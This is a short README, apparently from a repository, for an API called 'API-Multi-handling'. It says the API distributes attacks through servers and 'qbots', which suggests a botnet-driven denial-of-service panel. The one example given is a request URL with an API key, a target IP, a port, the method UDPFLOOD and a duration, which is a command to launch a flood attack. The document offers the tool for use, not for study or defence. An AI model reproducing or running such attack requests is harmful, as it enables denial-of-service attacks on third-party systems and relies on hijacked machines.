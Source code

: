 # API-Multi-handling
works with both servers/qbots for distributing attacks 


example
http://0.0.0.0:8080/?key=apikey123&host=70.70.70.72&port=80&method=UDPFLOOD&time=10

